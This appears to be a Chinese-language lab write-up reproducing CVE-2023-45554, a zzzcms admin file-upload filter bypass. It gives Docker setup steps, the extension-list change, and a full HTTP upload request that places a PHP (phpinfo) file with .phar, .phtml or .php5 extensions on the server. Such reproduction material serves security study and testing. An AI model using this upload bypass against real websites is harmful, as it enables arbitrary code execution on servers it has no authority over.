










# CVE-2023-45554 zzzcms 后台上传设置过滤绕过 

​	zzzcms系统是一款免费、开源的php语言建站系统，采用类MVC结构，框架简单，简单易学。诞生于2016年，其设计初衷是为了让用户快速、方便地建立自己的网站。该系统采用PHP语言开发，支持多相对于其他内容管理系统，ZZZCMS的特点在于其操作简单，易于上手，而且具有良好的扩展性和安全性。此外，ZZZCMS还提供了丰富的功能模块，包括文章管理、分类管理、标签管理、留言管理、友情链接管理等，可以满足大多数用户的需求。同时，ZZZCMS还提供了强大的SEO优化功能，可以帮助用户提高网站的排名，吸引更多的流量。支持MySQL、sQLite数据库。

​	zzzCMS v.2.1.9 中的文件上传漏洞允许远程攻击者通过将 imageext 参数从 jpg、jpeg、gif 和 png 修改为 jpg、jpeg、gif、png、pphphp 来执行任意代码。


zzzCMS官网 http://www.zzzcms.com/index.html

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2023-45554
- https://github.com/96xiaopang/Vulnerabilities/blob/main/zzzcms任意文件上传_en.md


## 漏洞环境


执行如下命令启动一个zzzcms-v2.1.7-web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80`即可跳转到zzzcmsan安装向导页面

1，将后台地址设置为admin  



点击下一步




## 漏洞复现

登录后台 找到上传设置，设置图片类型如下

`jpg,jpeg,gif,png,pphphp5,phar,phtml,pphphp`





找到上传点 准备上传文件





```
POST /admin/save.php?act=upload&uptype=image&upfolder=photo HTTP/1.1
Host: 192.168.116.128
Content-Length: 889
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAguYcgJPmLCxVJXJ
Accept: */*
Origin: http://192.168.116.128
Referer: http://192.168.116.128/admin/?act=imagelist&numtype=0&upfolder=photo
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1709204007.4.0.1709204007.0.0.0; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1709286898; wp-settings-time-1=1709712213; __test=1; PUBLICCMS_ANALYTICS_ID=3a91f834-b96d-451b-a953-6739bcff6ca0; PUBLICCMS_ADMIN=1_27f0e838-371b-4207-b689-7078a11597be; PHPSESSID=feab404c462e213c6ee39963cc6f7178; zzz998_usercheck=0; zzz116_token=bdcc0f20eec1a5aa7b0a97a58248dacc; zzz116_adminpass=1; zzz116_adminpath=1; zzz116_adminname=admin; zzz116_admintime=1712735964; zzz116_adminface=..%2Fplugins%2Fface%2Fface01.png; zzz911_token=10a5ec35885be8a4f58414fc7b4deeb0; zzz911_adminpass=1; zzz911_adminpath=1; zzz911_adminname=admin; zzz911_admintime=1712739306; zzz911_adminface=..%2Fplugins%2Fface%2Fface01.png
Connection: close

------WebKitFormBoundaryAguYcgJPmLCxVJXJ
Content-Disposition: form-data; name="format"

shijian
------WebKitFormBoundaryAguYcgJPmLCxVJXJ
Content-Disposition: form-data; name="id"

WU_FILE_0
------WebKitFormBoundaryAguYcgJPmLCxVJXJ
Content-Disposition: form-data; name="name"

phpinfo.phar
------WebKitFormBoundaryAguYcgJPmLCxVJXJ
Content-Disposition: form-data; name="type"

application/octet-stream
------WebKitFormBoundaryAguYcgJPmLCxVJXJ
Content-Disposition: form-data; name="lastModifiedDate"

Wed Apr 10 2024 14:32:36 GMT+0800 (中国标准时间)
------WebKitFormBoundaryAguYcgJPmLCxVJXJ
Content-Disposition: form-data; name="size"

23
------WebKitFormBoundaryAguYcgJPmLCxVJXJ
Content-Disposition: form-data; name="file"; filename="phpinfo.phar"
Content-Type: application/octet-stream

<?php
phpinfo();
?>

------WebKitFormBoundaryAguYcgJPmLCxVJXJ--

```

依次修改filename为phpinfo.phar phpinfo.phtml phpinfo.php5





访问phpinfo




